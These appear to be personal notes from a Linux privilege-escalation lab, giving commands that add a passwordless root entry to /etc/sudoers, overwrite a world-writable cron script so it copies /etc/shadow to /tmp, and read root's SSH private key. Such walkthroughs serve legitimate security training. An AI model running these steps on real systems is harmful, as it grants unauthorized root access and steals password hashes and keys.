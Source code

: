 Options:
```
  -c, --check              check-only mode
  -f, --file=sudoers       specify sudoers file location
  -h, --help               display help message and exit
  -q, --quiet              less verbose (quiet) syntax error messages
  -s, --strict             strict syntax checking
  -V, --version            display version information and exit
  -x, --export=output_file write sudoers in JSON format to output_file
```

### we can use this vudo file to edit the sudoer file
// so we can add our user there
```
/usr/sbin/vudo -f /etc/sudoers
	lowpriv ALL=(root) NOPASSWD: ALL
	:wq!
	sudo bash
```

> Pwned!

### back to lowpriv user - Task 2
```
find /etc/cron* -type f -perm -o+w -exec ls -l {} \;
// the command will search For files that are writeable by everyone
	-rwxrwxrwx 1 root root 47 Feb 21  2018 /etc/cron.hourly/oddjob
```

- we have write access
- lets copy the shadow file to tmp/shadow

```
echo -e '\#!/bin/bash\n/bin/cat /etc/shadow > /tmp/shadow' > /etc/cron.hourly/oddjob
```

- in the min 17 of every hour, as the crontab shows... 
- our command will be executed, so the shadow will be copied to the temp folder

### another method
- we have access to the /root folders, but we cant list files
- we can see that .ssh exists, but we cant access
- we cant access, but we can try to access the file id_rsa inside the .ssh
- that is a common file

```
cat /root/.ssh/id_rsa
```

// we have the RSA PRIVATE KEY
// to access the ssh

// check if the public key authentication is available
```
cat /etc/ssh/sshd_config | grep Pub
	PubkeyAuthentication yes
```
